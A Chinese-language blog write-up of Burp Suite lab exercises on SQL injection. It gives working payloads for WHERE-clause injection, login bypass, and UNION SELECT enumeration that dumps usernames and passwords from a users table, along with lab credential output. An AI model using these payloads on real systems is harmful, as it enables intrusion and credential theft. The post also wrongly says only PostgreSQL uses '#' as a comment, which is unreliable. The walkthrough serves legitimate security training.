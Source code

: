 ﻿---
title: BurpSuite_Lab
date: 2025-03-11 23:04:30
categories: Security
tags:
    - Burp Suite
    - CTF
    - Cybersecurity
---
## SQL Injection
该实验名称是SQL injection vulnerability in WHERE clause allowing retrieval of hidden data，打开Burp Suite，在浏览器中访问靶机地址，分析Burp Suite监听得到的数据包。
我们注意到他的filter使用的是直接嵌入网址中发起一个查询操作，在Burp Suite中的数据包产生如下，可以发现filter功能是直接使用Get获得相关数据，可以测试看看是否存在SQL Injection。
```HTTP
GET /filter?category=Gifts HTTP/2
```
使用下面的payload进行第一次测试，结果发现返回500错误，因此可以发现，该数值改变对服务器返回值产生直接影响，因此存在SQL注入漏洞。
```HTTP
GET /filter?category=Gifts'
```
那么可以考虑简单的万能payload，这个payload直接返回了所有的商品目录，事实上，做到这里这个简单的靶机实验便完成了，我们也可以看到SQL注入的威力。
```HTTP
GET /filter?category=Gifts'+or+1=1--
```

## User Bypass
该实验为sqli第二个实验。
尝试在username中直接输入`'`，发现存在注入问题。
简单来说就是一个登陆绕过，核心原因是server采取直接将用户输入值放入sql语句中进行查询造成了sql注入，绕过了登陆验证，直接访问了目标用户。
```HTTP
/login?username=administrator'--&password=abcdef
```

## UNION SELECT
与sqli-1类似，也是使用filter，且该filter变化能够导致服务器也产生相应的影响。
```HTTP
GET /filter?category=Gifts
```
如果直接加`'`可以导致服务器500错误，发现可能存在注入点。
尝试如下payload，依次验证合适的注入点。
```
GET /filter?category=Gifts' OR 1=1;--
GET /filter?category=Gifts' OR 1=1--
```
由于数据的结果呈现数据表的形式，因而返回值有可能是含多个值的组合，因此使用UNION SELECT NULL来验证存在多少个column值。
验证发现，但NULL数量为3时可以顺利返回值，故发现该sql查询返回column为3
此处使用NULL的原因是我们并不知道select的column值的类型，因此使用NULL，便可以正确执行。

## UNION SELECT 2
在上个靶机的基础上，使用单个逐次修改NULL为某一类型的值，例如1，'1'，来试验该位置的返回值类型，如果类型相同会返回200，类型不同返回500 Error。
```
/filter?category=' OR 1=1 UNION SELECT 1,NULL,NULL--
/filter?category=' OR 1=1 UNION SELECT NULL,1,NULL--
/filter?category=' OR 1=1 UNION SELECT NULL,NULL,1--


/filter?category=' OR 1=1 UNION SELECT 'a',NULL,NULL--
/filter?category=' OR 1=1 UNION SELECT NULL,'a',NULL--
/filter?category=' OR 1=1 UNION SELECT NULL,NULL,'a'--
```
经过多次操作，如此便可以确定返回值类型，以满足题目要求。

## UNION SELECT 3
首先先用UNION SELECT测试其中有几个参数，不过根据网页的显示，能够猜测应该是两个值，而且应该都是string，一个是标题，一个是文本。
```
/filter?category=Pets' UNION SELECT NULL, NULL--
/filter?category=Pets' UNION SELECT 'a', 'b'--
```
接着我们就可以在这个基础上，继续进行注入测试。
information_schema.schemata是SQL中常见的默认表格，通过payload，我们可以发现，其中有三个重要的表格information_scheama, public, pg_catalog。
```
/filter?category=Pets' UNION SELECT 'a',schema_name from information_schema.schemata--
```
information_schema.tables包含了SQL中所有的tables，搜索可以发现其中有一个叫users的table，不难猜测，这个table大概率就是我们需要的table。
```
/filter?category=Pets' UNION SELECT 'a', table_name from information_schema.tables--
```
information_schema.columns包含了SQL中所有table的column，我们可以通过这个查询到某个表格的column名，经过查询不难发现users表格中存在三个列，username、email和password。
```
/filter?category=Pets' UNION SELECT 'a', column_name from information_schema.columns where TABLE_NAME='users'--
```
如此我们可以尝试将username和password查询一下，返回了三个user，可以尝试登录了，我还顺便查询了email的值，发现其实没有一个user的email存在。
```
/filter?category=Pets' UNION SELECT username, password from users--
wiene h20zlyz8adkisyyt5vjl
administrator 98p19olmcgbbrnbvs8ky
carlos hk1qz43lhberfddscdyu
```
有意思的是虽然存在三个user，但wiene是登陆不了的。
Lab到这里也便完成了。

## Union Select 4
与上题前面流程非常类似，不过这题的两个变量，一个是number，一个是string，事实上我们只需要使用string即可，而number可以忽略。
按照类似的方法，我们最终可以得到users表格中存在username、email和password列，我们需要的是username和password，但我们只有一个string，可以考虑字符串拼接。
根据如下payload我们便能顺利解出这道题了。
```
Gifts' union select 1,username || '~' || password from users--

carlos~7ausrn2nfdbbr86d1b46
wiener~r0tzsd0a9ozg07nosu6h
administrator~bid7qv0usls2gbtoyt1c
```

## DataBase 1
本题与前面的题目也是类似的，只是本题无法接受`--`作为注释符号，只接受`#`作为注释符号，而很明显一般来说只有PostgreSQL才使用`#`作为注释符号，那么题目便坚决了。
```
Gifts' UNION SELECT 'a', version()#
```

## DataBase 2
